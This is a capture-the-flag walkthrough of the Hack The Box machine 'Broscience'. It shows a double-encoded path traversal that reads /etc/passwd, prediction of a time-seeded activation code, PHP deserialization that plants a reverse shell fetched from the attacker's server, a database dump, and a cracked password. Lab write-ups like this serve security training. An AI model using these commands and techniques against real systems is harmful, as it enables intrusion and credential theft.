
# Broscience machine HTB

## `hints`

### `foothold`
- basic enumeration - check **all files**, check **params**, check two times, that is **double** ;) 
- grab em all
- sweep for common vulns on features 
### `user`
- `db`?
### `root`
- (0) process


# `walkthrough`

## `path` file inclusion filter bypass

- after performing dirsearch on the machine, able to find `/includes/` with some interesting files

![](assets/2023-01-21-22-48-17.png)

- image fetching: `https://broscience.htb/includes/img.php?path=../../../../../etc/passwd`
  - got back **Error:** attack detected
  - single encoding failed, double encoding worked, got back 188B of passwd file
<br>


![](assets/2023-01-21-22-39-05.png)


## `start fetching files present on urls`

got all files using `fetch.py`, i like colors
------------------------------
```
/includes
  |-db_connect.php
  |-header.php
  |-img.php
  |-navbar.php
  |-utils.php
index.php
register.php
login.php
logout.php
exercise.php
user.php
```

![](assets/2023-01-21-22-50-11.png)

## tried to register

- tried to register got no email back
- checking the code we found

`/includes/utils.php`
```php

function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}
```

`/register.php`
```php
$activation_code = generate_activation_code();

...

$res = pg_execute($db_conn, "create_user_query", array($_POST['username'], md5($db_salt . $_POST['password']), $_POST['email'], $activation_code));

// TODO: Send the activation link to email
$activation_link = "https://broscience.htb/activate.php?code={$activation_code}";

$alert = "Account created. Please check your email for the activation link.";
```

## tried with a couple of timestamps manually but couldn't hit the activation code by feeding that time as seed `srand()`

`activation.py`  automated that process

- after many tries it finally got validated

![](/assets/2023-01-21-23-41-36.png)  

## checking features

- `get_theme()` unserializes `user-prefs` cookie. 
- `UserPrefs` class is not too interesting. Nothing useful
- `Avatar` and `AvatarInterface` has more to offer

```php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

```

- `get_theme()`  gets called everywhere. e.g. `user.php`
- `file_get_contents` probably is able to read from endpoint
- built a server -->  `upload_server.py`

## `upload_server.py`

```sh
$ python3 upload_server.py &
$ python3 unsafe_unserialize.py /var/www/html/reverse_shell.php revshell
```

```sh
10.10.11.195 - - [22/Jan/2023 00:56:53] "GET /revshell HTTP/1.0" 200 -
10.10.11.195 - - [22/Jan/2023 00:56:53] "GET /revshell HTTP/1.0" 200 -
10.10.11.195 - - [22/Jan/2023 00:56:54] "GET /revshell HTTP/1.0" 200 -
```

- check if file got uploaded 

![](/assets/2023-01-22-00-59-08.png)


- open netcat
```sh
$ nc -lvnp 4444 # https://broscience.htb/reverse_shell.php
Listening on 0.0.0.0 4444
Connection received on 10.10.11.195 39598

```

we are in

## `user`

- we got credentials for the database 

```sh
$ psql -h localhost -p 5432 -U dbuser -d broscience -c "\copy (SELECT * FROM users) TO '/var/www/html/users.csv' WITH CSV HEADER"
```

- `hash` for bill = 13edad4932da9dbb57d9cd15b66ed104
- tried with bruteforcing with single world `php ./php/bruteforce.php 13edad4932da9dbb57d9cd15b66ed104`, no luck
- `hashcat` --> `iluvhorsesandgym`

`success`

